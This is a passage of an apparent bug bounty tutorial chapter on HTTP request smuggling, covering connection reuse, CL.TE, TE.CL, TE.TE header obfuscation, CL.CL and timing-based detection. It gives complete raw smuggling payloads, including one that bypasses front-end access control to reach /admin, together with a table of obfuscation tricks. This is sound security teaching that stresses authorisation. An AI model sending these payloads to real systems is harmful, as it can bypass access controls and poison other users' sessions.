










**Level:** Expert · **Track:** Bug Bounty & AppSec · **Read time:** 270 min

This is Chapter 5 of the Server-Side notebook — Notebook 26. The four chapters before it all shared
a root cause: attacker-controlled input steering a *single* server operation — SSRF steered a fetch,
file upload steered storage and execution, path traversal steered file access, and insecure
deserialization steered object reconstruction. This chapter is different in kind. The bug here is not
about one server mishandling your input; it is about **two servers disagreeing** about your input.
When a front-end proxy and a back-end server parse the boundaries of an HTTP message differently, an
attacker can smuggle a second, hidden request past the front-end's view — and that hidden request
inherits the trust, the connection, and sometimes the *identity* of whoever comes next.

HTTP request smuggling (the discovery technique is often called **HTTP desync**, short for
desynchronization) is consistently one of the highest-impact, highest-paying bug classes in modern
bug bounty. A single desync primitive has, in real disclosed reports, led to mass account takeover,
full bypass of a web application firewall, poisoning of a CDN cache that served an XSS payload to
every visitor, and the capture of other users' session cookies and CSRF tokens *without any
interaction from those users*. It is subtle, it is protocol-level, and it rewards a precise
understanding of exactly how bytes on a TCP connection get carved into requests. That is what this
chapter builds, byte by byte.

A warning up front, and it is not boilerplate. Request smuggling attacks operate on **live shared
infrastructure**. A malformed probe that desyncs a production connection can poison the response of
the *next real user* who happens to reuse that connection — you can break other people's sessions by
accident. Every technique here is to be used **only** against systems you are explicitly authorised
to test, and even then with the non-destructive probing discipline this chapter teaches (timing-based
detection before content-based, `X-`headers and controlled paths, never destructive smuggled verbs).
On a bug bounty program, confirm request smuggling is in scope and follow the program's desync-testing
rules; some programs forbid it outright precisely because of the collateral risk.

## Part 1: The Prerequisite — Keep-Alive, Connection Reuse, and Message Framing

You cannot understand smuggling without first understanding two things that HTTP does for performance:
it **reuses TCP connections** for multiple requests, and it needs an unambiguous way to know **where
each request ends**. Smuggling is what happens when the second of those breaks.

### Why connections are reused

Opening a TCP connection costs a round trip (the three-way handshake), and opening a TLS connection
costs one or two more. In HTTP/1.0 the default was one request per connection: connect, send request,
read response, close. That is wasteful when a single web page pulls dozens of resources. HTTP/1.1 made
**persistent connections** (also called **keep-alive**) the default: after a response is delivered,
the connection stays open and the next request is sent down the *same* socket. The `Connection:
keep-alive` header signals this intent; `Connection: close` opts out.

This is fundamental to the modern web's performance, and it is also the substrate smuggling exploits.
Because many requests flow down one connection back-to-back with no delimiter *between* them, the
receiver must rely entirely on the framing rules *inside* each request to know where one stops and the
next starts. Get the framing wrong and the receiver will treat the start of request B as if it were
the tail of request A — or worse, treat a chunk of request A's body as the *start* of request B.



### The two ways HTTP/1.1 marks the end of a message body

A GET with no body is easy: the blank line (`\r\n\r\n`) after the headers ends the message. The
trouble begins with request bodies (POST, PUT). HTTP/1.1 gives **two** mechanisms to declare body
length, and the existence of two mutually-redundant mechanisms is the original sin behind classic
smuggling:

1. **`Content-Length` (CL):** a header giving the exact number of bytes in the body. `Content-Length:
   11` means "read exactly 11 bytes after the headers, that is the body, the next byte begins the next
   request."

2. **`Transfer-Encoding: chunked` (TE):** the body is sent as a series of *chunks*. Each chunk is a
   hexadecimal length on its own line, then that many bytes, then CRLF. A chunk of length `0` marks the
   end of the body. This exists so a server can start sending a response before it knows the total
   length (streaming).

Here is the same body expressed both ways. With `Content-Length`:

```http
POST /search HTTP/1.1
Host: vulnerable.example
Content-Length: 11

q=smuggling
```

The body is the 11 bytes `q=smuggling`. Now the chunked form of a similar body:

```http
POST /search HTTP/1.1
Host: vulnerable.example
Transfer-Encoding: chunked

b
q=smuggling
0

```

Read that chunked body carefully, because every smuggling attack is built from it:

- `b` is hexadecimal for 11 — the next chunk is 11 bytes long.
- `q=smuggling` is those 11 bytes.
- `0` is a zero-length chunk, which means "body is finished".
- The final `\r\n` after the `0` terminates the message.

The chunk-size lines and the terminating `0` are **CRLF-delimited**. Getting a single CR or LF wrong in
a chunked body is exactly the kind of parser disagreement attackers hunt for.

### The rule that is supposed to prevent smuggling

The HTTP specification (RFC 7230, and its successor RFC 9112) anticipated the danger of a message
carrying *both* `Content-Length` and `Transfer-Encoding`. Its rule is unambiguous: **if both headers
are present, `Transfer-Encoding` wins and `Content-Length` must be ignored** (and a server that
forwards such a message should strip the `Content-Length`). RFC 9112 goes further and says a server
that receives both **should treat the message as invalid** and reject it.

Smuggling exists because, in the real world, a chain of servers does not agree on that rule. One
server honours `Transfer-Encoding`; another honours `Content-Length`; a third can be tricked into
ignoring a `Transfer-Encoding` header that has been subtly malformed. The moment two hops in the chain
resolve the body length differently, the connection between them is **desynchronized**.

## Part 2: The Core Idea — Two Servers, One Disagreement

Almost every real website sits behind at least one intermediary. A **front-end** server — a reverse
proxy, load balancer, CDN edge node, or WAF — terminates the client's TLS, inspects and routes the
request, then forwards it to a **back-end** application server over a (usually reused, keep-alive)
connection. This is where the disagreement lives.



The key architectural facts that make smuggling possible and dangerous:

- The front-end forwards multiple *different users'* requests down the **same** back-end connection to
  save resources. Your smuggled bytes can therefore land in front of a **stranger's** request.
- The front-end decides where your request ends using *its* framing logic; the back-end decides where
  your request ends using *its* framing logic. If those differ, the back-end sees a request boundary
  in a different place than the front-end intended.
- Whatever bytes the front-end considers "leftover" after your request, it treats as the **beginning of
  the next request** on that connection. If you can control those leftover bytes, you control the start
  of someone else's request.

The attack, then, is to craft a single request that the **front-end** reads as complete at one point,
but the **back-end** reads as complete at a *different, earlier* point — leaving a trailing fragment
that the back-end queues as the prefix of the next request. That trailing fragment is your **smuggled
request**.

There are two ways the disagreement can go, and they name the two classic families:

- **CL.TE** — the **front-end uses `Content-Length`**, the **back-end uses `Transfer-Encoding`**.
- **TE.CL** — the **front-end uses `Transfer-Encoding`**, the **back-end uses `Content-Length`**.

(The convention is `<front-end>.<back-end>`.) A third family, **TE.TE**, is when *both* support
`Transfer-Encoding` but one can be tricked into ignoring it via header obfuscation — collapsing the
situation back into CL.TE or TE.CL. We will build all three.



## Part 3: CL.TE — Front-End Content-Length, Back-End Transfer-Encoding

In a CL.TE setup the front-end uses the `Content-Length` header to determine the body length, and the
back-end uses the `Transfer-Encoding: chunked` header. Consider this request:

```http
POST / HTTP/1.1
Host: vulnerable.example
Content-Length: 6
Transfer-Encoding: chunked

0

G
```

Walk it through each server:

- **Front-end (uses `Content-Length: 6`):** it reads exactly 6 bytes of body after the headers. Those
  6 bytes are `0\r\n\r\nG` (that is `0`, CRLF, CRLF, `G` — count them: `0`,`\r`,`\n`,`\r`,`\n`,`G` = 6
  bytes). The front-end considers the whole request complete and forwards *all* of it to the back-end.
- **Back-end (uses `Transfer-Encoding: chunked`):** it reads the body as chunks. The first line is `0`,
  a zero-length chunk, which means **the body ends here**. So the back-end considers the request to end
  right after `0\r\n\r\n`. But the front-end already sent one more byte — the `G`. That `G` is now
  sitting at the front of the back-end's connection buffer, and the back-end treats it as the **first
  byte of the next request**.

The `G` is the smuggled prefix. When the next real request arrives — say `POST /home HTTP/1.1...` — the
back-end prepends the leftover `G`, producing `GPOST /home HTTP/1.1...`, which it parses as a request
to the (nonexistent) method `GPOST`. The victim gets an error. That is a crude demonstration, but it
proves the desync: your bytes influenced another request.



### A weaponised CL.TE payload

To do something useful, make the smuggled prefix a *complete, valid* request whose effect you can
observe. The canonical PortSwigger-style payload smuggles a request to a restricted path:

```http
POST / HTTP/1.1
Host: vulnerable.example
Content-Length: 35
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
X-Ignore: X
```

The `Content-Length: 35` covers everything from after the blank line through the start of the smuggled
`GET /admin` request, so the front-end forwards it all. The back-end sees the `0` chunk, ends the first
request, and treats `GET /admin HTTP/1.1\r\nX-Ignore: X` as the next queued request. The trailing
`X-Ignore: X` header (deliberately left without its terminating blank line) will absorb the victim
request's first line so the smuggled request parses cleanly. If `/admin` is only reachable from
internal IPs, this bypasses the front-end's access control because the back-end sees a request that
appears to come from the trusted front-end.

**Bug bounty relevance:** front-end access control bypass is one of the most common ways request
smuggling turns into a payout. Anything the front-end blocks by path (`/admin`, `/internal`,
`/metrics`, `/actuator`) but the back-end serves is a candidate. This is PortSwigger Web Security
Academy lab territory ("Bypassing front-end security controls, CL.TE").

## Part 4: TE.CL — Front-End Transfer-Encoding, Back-End Content-Length

TE.CL is the mirror image: the front-end honours `Transfer-Encoding: chunked`, the back-end honours
`Content-Length`. This one is fiddlier to write because you have to make the chunk sizes and the
Content-Length agree with your intent. Consider:

```http
POST / HTTP/1.1
Host: vulnerable.example
Content-Length: 4
Transfer-Encoding: chunked

5c
GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0

```

Trace it:

- **Front-end (uses `Transfer-Encoding: chunked`):** the first chunk line is `5c` = 92 in decimal, so
  it reads the next 92 bytes as chunk data — that is the entire `GPOST / HTTP/1.1...x=1` block. Then it
  hits the `0` chunk and ends the body. It forwards the whole thing.
- **Back-end (uses `Content-Length: 4`):** it reads only 4 bytes of body after the headers — `5c\r\n`
  (that is `5`,`c`,`\r`,`\n` = 4 bytes). It considers the request complete there. Everything after —
  starting at `GPOST / HTTP/1.1` — is the **next request** in the back-end's view.

So the smuggled request is `GPOST / HTTP/1.1` with its own `Content-Length: 15` body. The leading `G`
again mangles the method, but the structure is what matters: you have injected a full, well-formed
request that the back-end will process on its own terms.

**The critical detail in TE.CL: getting the chunk size right.** The chunk-size line (`5c` here) must
equal the byte length of everything from the line *after* it up to (but not including) the final `0`
chunk. Miscount by one and the front-end's chunk parser will either truncate your smuggled request or
run past it and desync in a way you did not intend. When hand-crafting these, disable Burp's automatic
`Content-Length` update (Repeater → uncheck "Update Content-Length") so your deliberately-wrong CL is
preserved, and count bytes precisely — remember every line break in the HTTP block is **two** bytes,
`\r\n`.



**Red team / offense note:** TE.CL and CL.TE give the same downstream primitive — a controlled request
prefix on a shared connection — but which one *works* depends entirely on the specific front-end/back-
end pair. You determine which by probing (Part 7), never by guessing.

## Part 5: TE.TE — Header Obfuscation to Break the Tie

What if *both* the front-end and back-end support `Transfer-Encoding: chunked`? Then a plain request
with both headers is handled identically by both (both honour TE, both ignore CL) and there is no
desync. TE.TE is the art of **obfuscating the `Transfer-Encoding` header** so that exactly **one** of
the two servers fails to recognise it and falls back to `Content-Length`. The moment one server stops
seeing the TE header, you are back to a CL.TE or TE.CL situation.

Servers parse header names and values with subtly different strictness, and that variance is the whole
game. The classic obfuscations — each of which some real server has been observed to mis-handle:

| # | Obfuscation | Raw form (name/value) | Why it works |
|---|-------------|------------------------|--------------|
| 1 | Space before colon | `Transfer-Encoding : chunked` | Some parsers reject the malformed header name and ignore it; others trim and accept |
| 2 | Tab instead of space | `Transfer-Encoding:[TAB]chunked` | Header-value whitespace handling differs |
| 3 | Leading spaces in value | `Transfer-Encoding:  chunked` | Extra SP; some strip, some don't |
| 4 | Vertical tab / form feed | `Transfer-Encoding:[0x0B]chunked` | Exotic whitespace treated as value vs. delimiter |
| 5 | Duplicate header | `Transfer-Encoding: chunked` then `Transfer-Encoding: cow` | One server takes the first, the other the last |
| 6 | Wrapped / folded value | `Transfer-Encoding:[CRLF][SP]chunked` | Obsolete line folding; some join, some reject |
| 7 | Bad value | `Transfer-Encoding: xchunked` | One server pattern-matches "chunked" loosely, the other exactly |
| 8 | Name casing / typo | `Transfer-Encoding` vs `Transfer-encoding` | Rare, but case-sensitive parsers exist |

A concrete duplicate-header TE.TE payload (obfuscation #5), which desyncs when the back-end honours the
*second* `Transfer-Encoding` and the front-end honours the first (or vice versa):

```http
POST / HTTP/1.1
Host: vulnerable.example
Content-Length: 4
Transfer-Encoding: chunked
Transfer-Encoding: identity

5c
GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0

```

And the space-before-colon variant (obfuscation #1), presented so you see exactly which byte is
unusual — there is a literal space character between `Transfer-Encoding` and the `:`:

```http
POST / HTTP/1.1
Host: vulnerable.example
Content-Length: 6
Transfer-Encoding : chunked

0

G
```

The methodology for TE.TE is mechanical: try each obfuscation in turn, and for each one test **both**
directions (does the front-end drop TE, or does the back-end?), because you do not know in advance
which server is the fussy parser. Tools automate this permutation sweep — the Burp **HTTP Request
Smuggler** extension carries a built-in list of dozens of these mutations.

## Part 6: CL.CL and the "Both Agree, But On What?" Trap

You might assume that if both servers use `Content-Length`, no desync is possible — after all, they
agree on the framing mechanism. Usually true, but there is a nasty edge case: **what if a request
carries two `Content-Length` headers with different values?** RFC 9112 says such a message is invalid
and must be rejected, but not every server obeys.

```http
POST / HTTP/1.1
Host: vulnerable.example
Content-Length: 8
Content-Length: 7

12345
G
```

If the front-end honours the *first* `Content-Length: 8` and the back-end honours the *second*
`Content-Length: 7`, the front-end forwards 8 body bytes (`12345\r\nG`) but the back-end only consumes
7 (`12345\r\n`), leaving `G` as a smuggled prefix. This **CL.CL** desync is rarer than CL.TE/TE.CL
because most modern servers reject duplicate `Content-Length` outright, but it still appears in older or
misconfigured stacks and is worth including in any probe set.

The broader lesson is the mental model you should carry into every desync hunt: **a desync happens
whenever any two hops resolve the message length differently, for any reason** — different header
priority, different tolerance for malformed values, different handling of duplicates, or (as we will
see next) different *protocol versions*.

## Part 7: Detecting Desync Safely — Timing First, Then Differential

Before weaponising, you must reliably detect whether a target is vulnerable and, if so, which variant.
The gold-standard methodology (pioneered in James Kettle's "HTTP Desync Attacks" research and baked
into the PortSwigger labs and the HTTP Request Smuggler extension) is **timing-based detection first**,
because it is the least destructive: a timing probe that fails simply times out or returns normally; it
does not leave a poisoned prefix sitting on a shared connection waiting to hit a real user.

### CL.TE timing probe

To detect a **CL.TE** vulnerability, send a request where the front-end (CL) forwards a body that the
back-end (TE) will read as an *incomplete* chunk — forcing the back-end to wait for more data that
never comes:

```http
POST / HTTP/1.1
Host: vulnerable.example
Transfer-Encoding: chunked
Content-Length: 4

1
A
X
```

- Front-end (CL=4) forwards exactly 4 bytes: `1\r\nA` … wait — count precisely: `1`,`\r`,`\n`,`A` = 4
  bytes. It forwards only that.
- Back-end (TE) reads chunk size `1`, expects 1 byte of data (`A`), then expects a CRLF and the next
  chunk size. But those bytes were never forwarded (the front-end stopped at 4). The back-end **hangs**,
  waiting for the rest of the chunked body, until its read timeout fires.

**A long delay (e.g. 10+ seconds) is a strong positive for CL.TE.** No delay means either not vulnerable
or it is a TE.CL target, which you test with the mirror probe.

### TE.CL timing probe

```http
POST / HTTP/1.1
Host: vulnerable.example
Transfer-Encoding: chunked
Content-Length: 6

0

X
```

- Front-end (TE) reads the `0` chunk, ends the body there, forwards only up to `0\r\n\r\n`.
- Back-end (CL=6) wants 6 body bytes but received fewer, so it **hangs** waiting. A delay is a positive
  for TE.CL.



### Confirming with a differential response probe

Timing tells you a desync *exists*; a **differential** probe confirms it by making two requests where
the *second* request's response is visibly affected by the first request's smuggled prefix. The safe
pattern smuggles a prefix that will make a *follow-up normal request* return a different status or body
than it would otherwise. Send the attack request, then immediately send a normal request on the same
